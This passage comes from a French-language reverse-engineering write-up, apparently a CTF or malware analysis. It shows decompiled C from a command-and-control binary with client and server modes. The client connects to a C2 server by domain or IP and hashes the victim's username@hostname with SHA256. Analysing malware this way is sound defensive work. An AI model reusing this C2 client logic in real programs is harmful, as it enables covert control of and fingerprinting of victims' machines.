 ```c
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      if (clientOption) {
        if (bVar1) {
          connectClient((char *)0x0,local_18);
        }
        else {
          // Pas de domaine ou d'@IP passé en argument
          if (!bVar2) {
            printf("-i ip ou -d domain manquant");
                    /* WARNING: Subroutine does not return */
            exit(1);
          }
          connectClient(local_28,(char *)0x0);
        }
      }
      else {
        if (!serverOption) {
          puts("Vous devez avoir --client ou --serveur");
                    /* WARNING: Subroutine does not return */
          exit(1);
        }
        openServer();
      }
      return 0;
    }
    if (iVar3 != 0x73) break;
    serverOption = true;
  }
  [snip]
  }
  // Aucune option ou option non reconnue
LAB_00402671:
  puts("Option non reconnue. Utilisation : ./c2 [--client [-d domaine | -i ip] | --serveur]");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

*Les noms de fonction et variable ont été renommé pour une meilleure compréhension.*

## Client

Lorsque le binaire est exécuté avec l'option `--client` celui-ci se connecte au serveur c&c (Command and Control) pointé par l'option `-d` ou l'adresse IP pointé par `-i`. Puis dans un second temps concatène le nom d'utilisateur et le nom d'hôte de la machine et hash cette valeur en sha256. Il fait ensuite un court calcul pour avoir une valeur pseudo random basé sur la fonction `time`.

```c
void connectClient(char *hostName,char *ipAddress)
{
  [snip]
  // hashage du nom d'utilisateur + @ + nom d'hôte
  userName = getUsernameTty();
  machineName = getHostName();
  cmdUsername = concat(userName,"@");
  cmdFullName = concat(cmdUsername,machineName);
  SHA256_Init(&local_518);
  len = strlen(cmdFullName);
  SHA256_Update(&local_518,cmdFullName,len);
  SHA256_Final(sha256SumCmdFullName,&local_518);
  0_OneCharSha256SumCmdFullName = (char *)calloc(0x41,1);
  index = 0;
```